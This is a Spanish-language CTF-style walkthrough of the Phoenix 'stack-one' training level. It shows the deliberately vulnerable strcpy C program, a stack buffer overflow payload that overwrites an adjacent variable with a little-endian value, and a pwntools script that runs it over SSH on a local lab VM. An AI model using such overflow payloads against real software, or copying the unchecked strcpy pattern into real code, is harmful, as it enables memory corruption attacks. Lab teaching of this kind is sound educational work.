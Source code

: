 ```yaml
---
layout: single
title: "Stack One"
permalink: /pwn/phoenix/stack-one/
parent: Phoenix
comments: true
excerpt: "Stack One"
classes: wide
header:
  teaser: /assets/images/2025-08-17-Phoenix/logo.jpg
categories: [PWN]
tags: [PWN, Linux, Hacking, Easy]
---
```


![Untitled](/assets/images/2025-08-17-Phoenix/banner.png)

En este nivel se introduce el concepto de **modificar variables a valores específicos dentro de la memoria**, aprovechando un desbordamiento de buffer.  


##  Consejos útiles

- `man ascii` puede ayudarte a traducir valores hexadecimales a caracteres.  
- Ten en cuenta la [endianess](https://en.wikipedia.org/wiki/Endianness){:target="_blank"} de la arquitectura, ya que afecta el orden en el que se guardan los bytes en memoria.  

---

## Análisis del código

El programa copia el argumento del usuario dentro de un buffer de 64 bytes, pero no controla el tamaño con strcpy.
Esto nos permite escribir más allá del buffer y modificar la variable changeme, que está justo después en la memoria.

El objetivo es ponerle el valor 0x496c5962.


```c
/*
 * phoenix/stack-one, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x496c5962
 *
 * Did you hear about the kid napping at the local school?
 * It's okay, they woke up.
 *
 */

#include <err.h>    // Biblioteca para funciones de manejo de errores
#include <stdio.h>  // Biblioteca estándar para entrada/salida
#include <stdlib.h> // Biblioteca para funciones generales, como exit()
#include <string.h> // Biblioteca para funciones de manipulación de cadenas
#include <unistd.h> // Biblioteca para funciones del sistema POSIX, como sleep()

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"
// Define un mensaje constante que se mostrará al inicio del programa

int main(int argc, char **argv) { 
  // Punto de entrada del programa principal. Toma el número de argumentos y sus valores.

  struct { 
    char buffer[64];          // Define un espacio de memoria para una cadena de 64 bytes.
    volatile int changeme;    // Variable marcada como "volatile", para evitar optimizaciones. Su valor debe ser cambiado por el exploit.
  } locals;                   // Crea una estructura llamada 'locals' que agrupa las dos variables.

  printf("%s\n", BANNER); 
  // Imprime el mensaje de bienvenida almacenado en la constante BANNER.

  if (argc < 2) { 
    // Verifica que el usuario haya proporcionado al menos un argumento al programa.
    errx(1, "specify an argument, to be copied into the \"buffer\"");
    // Si no se proporciona un argumento, muestra un mensaje de error y finaliza el programa con el código de salida 1.
  }

  locals.changeme = 0; 
  // Inicializa la variable 'changeme' con el valor 0.

  strcpy(locals.buffer, argv[1]); 
  // Copia el argumento proporcionado (argv[1]) en el buffer 'buffer'.
  // Vulnerabilidad: No se verifica el tamaño del argumento, lo que puede provocar un desbordamiento de búfer.

  if (locals.changeme == 0x496c5962) { 
    // Comprueba si el valor de 'changeme' coincide con el objetivo: 0x496c5962.
    puts("Well done, you have successfully set changeme to the correct value");
    // Si el valor es correcto, imprime un mensaje de éxito.
  } else { 
    printf("Getting closer! changeme is currently 0x%08x, we want 0x496c5962\n",
        locals.changeme);
    // Si el valor es incorrecto, imprime el valor actual de 'changeme' y el valor esperado.
  }

  exit(0); 
  // Finaliza el programa correctamente con el código de salida 0.
}

```

**Ejecución inicial**

Si ejecutamos el binario sin argumentos:

```c
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-one 
Welcome to phoenix/stack-one, brought to you by https://exploit.education
stack-one: specify an argument, to be copied into the "buffer"
```

Con un solo carácter (A) vemos que changeme sigue en cero: nos da el valor de 0x00000000

```c
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-one A
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Getting closer! changeme is currently 0x00000000, we want 0x496c5962

```

**Desbordamiento del buffer**

Probamos llenando el buffer con 64 caracteres A, y luego añadimos BBBB (hex: 0x42424242). ya con esto logramos sobreescribir la variable changeme
```c
user@phoenix-amd64:/opt/phoenix/amd64$ python -c 'print "A"*64'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-one AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Getting closer! changeme is currently 0x42424242, we want 0x496c5962

```

**Escribiendo el valor correcto**

El valor esperado es 0x496c5962. En little endian, debe enviarse como: \x62\x59\x6c\x49 y con esto vemos que superamos el reto.

```c
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-one $(python -c 'print "A" * 64 + "\x62\x59\x6c\x49"')
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```

**Exploit con Pwntools**

Creamos un script en Python3 para automatizarlo:

```c
┌──(root㉿angussMoody)-[/mnt/angussMoody/PWN/Phoenix/1_stack-one]
└─# cat Remote_exploit.py 
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: Remote_exploit.py
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ #!/usr/bin/env python3
   2   │ from pwn import *
   3   │ 
   4   │ # Define el payload
   5   │ payload = b"A" * 64 + b"\x62\x59\x6c\x49"
   6   │ 
   7   │ # Establece conexión SSH
   8   │ ssh_connection = ssh(user='user', host='localhost', password='user', port=2222)
   9   │ 
  10   │ #  Ejecuta el programa remoto con la primera condición
  11   │ process = ssh_connection.process(['/opt/phoenix/amd64/stack-one', payload])
  12   │ 
  13   │ # Captura y muestra la salida
  14   │ flag = process.recvall().decode()
  15   │ log.success("Output: " + flag)
  16   │ 
  17   │ # Cierra la conexión
  18   │ process.close()
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────
```

**Resultado final**

Se evidencia el mensaje que indica que el reto fue resuelto

```c
┌──(root㉿angussMoody)-[/mnt/angussMoody/PWN/Phoenix/1_stack-one]
└─# python3 Remote_exploit.py 
[+] Connecting to localhost on port 2222: Done
[*] user@localhost:
    Distro    Unknown 
    OS:       linux
    Arch:     amd64
    Version:  4.9.0
    ASLR:     Disabled
    SHSTK:    Disabled
    IBT:      Disabled
    Note:     Susceptible to ASLR ulimit trick (CVE-2016-3672)
[+] Starting remote process None on localhost: pid 554
[!] ASLR is disabled for '/opt/phoenix/amd64/stack-one'!
[+] Receiving all data: Done (141B)
[*] Stopped remote process 'stack-one' on localhost (pid 554)
[+] Output: Welcome to phoenix/stack-one, brought to you by https://exploit.education
    Well done, you have successfully set changeme to the correct value

```

**Conclusión**

Este nivel muestra cómo un desbordamiento de buffer puede alterar el flujo normal de un programa, permitiendo modificar valores en memoria que originalmente no deberían cambiarse. El reto introduce la importancia de comprender la disposición de la pila y cómo un manejo inseguro de cadenas de caracteres abre la puerta a vulnerabilidades críticas.